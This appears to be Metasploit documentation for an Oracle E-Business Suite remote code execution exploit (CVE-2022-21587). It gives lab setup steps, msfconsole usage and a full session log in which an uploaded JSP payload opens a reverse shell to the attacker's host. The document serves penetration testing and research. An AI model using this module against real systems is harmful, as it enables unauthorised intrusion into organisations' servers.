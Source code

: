 ## Vulnerable Application

This module exploits CVE-2022-21587, an unauthenticated arbitrary file upload vulnerability in Oracle
Web Applications Desktop Integrator as shipped with Oracle E-Business Suite (EBS) versions
12.2.3 through to 12.2.11.

The exploit uploads a Java Server Page (JSP) payload in order to achieve code execution
as the `oracle` user, and will use the `java/jsp_shell_reverse_tcp` payload by default.

The Oracle EBS product is shipped as either a standalone appliance based on Linux, or an self
hosted application supporting multiple platforms, including Linux, Windows, Solaris, AIX and
HP-UP. This exploit module has been tested against the Linux based appliance, specifically
version 12.2.10.

A full technical analysis of the vulnerability can be found on
[AttackerKB](https://attackerkb.com/topics/Bkij5kK1qK/cve-2022-21587/rapid7-analysis).

## Target Setup

To setup the Oracle EBS appliance, you must download the appliance files, rebuild the appliance
image and install the appliance as a [VirtualBox](https://www.virtualbox.org/) virtual machine.

* Register an account at [Oracle E-Delivery](https://edelivery.oracle.com/osdc/faces/SoftwareDelivery)
and login to search for the required software, specifically the `Oracle VM Virtual Appliance for
Oracle E-Business Suite`.

* You will be presented with multiple ZIP files to download. These files will be extracted and
concatenated to create a single 70 GB Oracle Virtual Appliance (OVA) file. Instructions on how
to do this, as well as additional configuration instructions, can be found in the extracted
documentation located in `\V1005962-01\Documents\Oracle VM Virtual Appliance for Oracle E-Business
Suite Deployment Guide_Release 12.2.10.html`. Additionally a step by step guide for installation
and setup is available [here](https://blog.rishoradev.com/2021/04/12/oracle-ebs-r12-on-virtualbox/).

* Import the OVA file into VirtualBox. Once this is completed you may power on the virtual appliance.
You will require around 320 GB of hard disk space to complete this operation. Note, issues were encountered
if the IP address for the appliance changed after the initial install. It is recommended to use either a
static IP address or ensure your DHCP server provides the same address to the appliance.

* Follow the instructions displayed in the console to set the default passwords for the `root`
and `oracle` and `applmgr` user accounts.

* Once installation and setup has been completed, you can SSH into the appliance as the user
`oracle` and start the database and application services with the following commands:

```
cd /u01/install/APPS/scripts/
./startdb.sh
./startapps.sh
```

* You can now access the WebLogic server over HTTP port `8000`.

## Verification Steps

From msfconsole perform the following steps:

1. `use exploit/linux/http/oracle_ebs_rce_cve_2022_21587`
2. Set `RHOST` to the target address and `RPORT` to the target port. The default `RPORT` is 8000 for
HTTP and 4443 for HTTPS. If using HTTPS set `SSL` to `true`.
3. Set `LHOST` and `LPORT` values for the default `java/jsp_shell_reverse_tcp` payload.
4. `check` to ensure the target is vulnerable.
5. `exploit`
6. Verify a command session has been opened and you can execute commands as the `oracle` user.

## Scenarios

### Oracle E-Business Suite 12.2.10 - Oracle Virtual Appliance (OVA)

```
msf6 > use exploit/linux/http/oracle_ebs_rce_cve_2022_21587 
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > show options

Module options (exploit/linux/http/oracle_ebs_rce_cve_2022_21587):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metaspl
                                       oit/basics/using-metasploit.html
   RPORT    8000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Oracle EBS on Linux



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set RHOST 192.168.86.37
RHOST => 192.168.86.37
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set LHOST 192.168.86.5
LHOST => 192.168.86.5
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > check
[*] 192.168.86.37:8000 - The target appears to be vulnerable. Oracle EBS version 12.2.10 detected.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > exploit

[*] Started reverse TCP handler on 192.168.86.5:4444 
[*] Targeting the endpoint: /OA_HTML/BneUploaderService
[*] Triggering the payload...
[+] Deleted /u01/install/APPS/fs1/FMW_Home/Oracle_EBS-app1/applications/forms/forms/ygrne.jsp
[*] Command shell session 1 opened (192.168.86.5:4444 -> 192.168.86.37:59288) at 2023-02-10 12:20:43 +0000

id
uid=54321(oracle) gid=54321(oinstall) groups=54321(oinstall),54322(dba) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux apps 3.10.0-1160.11.1.el7.x86_64 #1 SMP Tue Dec 15 11:58:45 PST 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.37 - Command shell session 1 closed.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) >
```
